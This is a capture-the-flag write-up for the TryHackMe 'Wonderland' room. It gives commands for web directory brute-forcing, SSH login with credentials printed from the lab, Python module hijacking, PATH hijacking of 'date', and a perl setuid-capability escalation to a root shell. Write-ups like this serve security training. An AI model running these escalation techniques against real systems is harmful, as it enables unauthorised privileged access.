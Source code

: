 # Write up for THM room [wonderland](https://tryhackme.com/room/wonderland)

```fish
set -gx IP 10.10.198.182
```

## Enumerate with nmap

```fish
sudo nmap -sN -sC -sV -oN nmap/init $IP
```

> Found open ports: `20 & 80`


## Enumerate http server

```fish
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

> found folders: `/img`, `/r`, `/poem`

Do enumeration for found folders

```fish
gobuster dir -u $IP/img -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/poem -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Here we go
gobuster dir -u $IP/r/a -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/r/a/b -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/r/a/b/b -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/r/a/b/b/i -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/r/a/b/b/i/t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

> Found credentials on `/r/a/b/b/i/t`: `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## SSH on server

```fish
ssh alice@$IP
```

> Found users: `alice`, `hatter`, `rabbit`, `tryhackme`

run `sudo -l` to get sudo informations


```
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

in `walrus_and_the_carpenter` script we import `random`.
So create a `random.py` file in the current directory with following content:

```python3
import os

os.system("/bin/bash")
```

> Here we go: Signed in user: `rabbit`

Execute `./teaParty`

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 26 Oct 2023 10:29:55 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Because it's a ELF file it looks like the third line will execute an `date`-command. So create your own:

```
export PATH=/tmp:$PATH
echo "#/bin/bash\n/bin/bash" > /tmp/date
```

Execute `./teaParty` again. Now you are logged in as hatter.

> Found `password.txt` in `/home/hatter`: 'WhyIsARavenLikeAWritingDesk?'

## More enumeration as hatter

Find methods that can set SUID Flags:

```bash
getcap -r / 2>/dev/null
```

> `perl` can do so.


## Set suid flag with perl [here](https://gtfobins.github.io/gtfobins/perl/#capabilities)

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
